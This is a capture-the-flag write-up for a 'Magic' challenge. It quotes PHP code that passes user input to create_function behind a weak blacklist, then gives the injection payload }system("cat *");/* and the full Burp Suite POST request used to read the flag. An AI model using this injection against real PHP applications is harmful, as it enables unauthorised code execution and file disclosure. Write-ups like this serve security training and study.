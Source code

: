 # Magic

Challenge URL: http://35.238.173.184/

We saw `admin.php` was interesting because of the PHP function below:

```php
include "flag.php";

if (isset ($_POST['c']) && !empty ($_POST['c'])) {
    $blacklist = "/mv|rm|exec/i";
    $code = $_POST['c'];
    if(strlen($code)>60) {
        die("too long to execute");
    }
    if(preg_match($blacklist,$code)){
        die("that's blocked");
    }
    $fun = create_function('$flag', $code);
    print($success);

}
```
We observed the blacklist only filtered a few commands and had no special character filters. We also tested more times, because the entire structure of the site was blind: we found out we had a 60 char limit for the payload.
Another function we noticed was `create_function('$flag', $code)`. We were allowed to inject interesting commands in `create_function()` (php command injection).

`}system("cat *");/* ` was obtained with a template injection (https://github.com/swisskyrepo/PayloadsAllTheThings) and some attempts.
For this task we used **Burp Suite**: in _Repeater_ we put the following request:

```
?>
writeup
POST /admin.php HTTP/1.1
Host: 35.238.173.184
Content-Length: 33
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://35.238.173.184
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://35.238.173.184/admin.php
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

c=}system("cat *");/* 
```

`shaktictf{p0tn714l_0f_func710n5_4r3_1nf1n173}`
